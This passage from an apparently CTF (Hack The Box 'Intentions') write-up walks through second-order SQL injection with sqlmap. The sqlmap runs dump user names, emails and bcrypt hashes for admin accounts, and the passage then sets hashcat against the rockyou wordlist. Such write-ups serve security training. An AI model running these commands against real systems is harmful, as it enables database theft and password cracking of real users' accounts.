 Next, **steve**:

```bash
sqlmap -r post-genres --second-req=get-feed -vv --level 5 --risk 3 --dbms=mysql --technique=B --tamper=space2comment --dump -D intentions -T users -C name,email,password,admin --where='name="steve"'
```

![db dump 3](db%20dump%203.png)

| Field    | Value                                                        |
| -------- | ------------------------------------------------------------ |
| name     | steve                                                        |
| email    | steve@intentions.htb                                         |
| password | $2y$10$M/g27T1kJcOpYOfPqQlI3.YfdLIwr3EWbzWOLfpoTtjpeMqpp4twa |
| admin    | 1                                                            |

Alright, so both **greg** and **steve** are admin users. The `$2y$10` at the beginning of the hashes reveal that they are bcrypt hashes created using 10 hashing rounds. For reference, that's Hashcat format 3200. That's pretty strong hashing, and a good way to store passwords. Since this is HTB, if these hashes are meant to be cracked then the passwords should be in Rockyou.

I copied the list of hashes above into a text file `hashes.txt`, then extracted just the hashes without the names (this is how hashcat expects them):

```bash
cut -d ":" -f 2 hashes.txt > hashes-trimmed.txt
```

Next, time to start up hashcat and get this going! Bcrypt is tough - this might take a while:

```bash
WLIST=/usr/share/wordlists/rockyou.txt
hashcat -m 3200 hashes-trimmed.txt $WLIST --status --session=intentions
```

:clock10: It's running at 3357 hashes per second. Estimated duration is 29h. I'll let this run for a while. Meanwhile, I'll investigate other leads I've found.



### Table: personal_access_tokens

Again, I'll dump the whole table to understand what fields it has:

```bash
sqlmap -r post-genres --second-req=get-feed -vv --level 5 --risk 3 --dbms=mysql --technique=B --tamper=space2comment --dump -D intentions -T personal_access_tokens
```

![db dump 5](db%20dump%205.png)

Oh, bummer! It's empty.



### Table: migrations
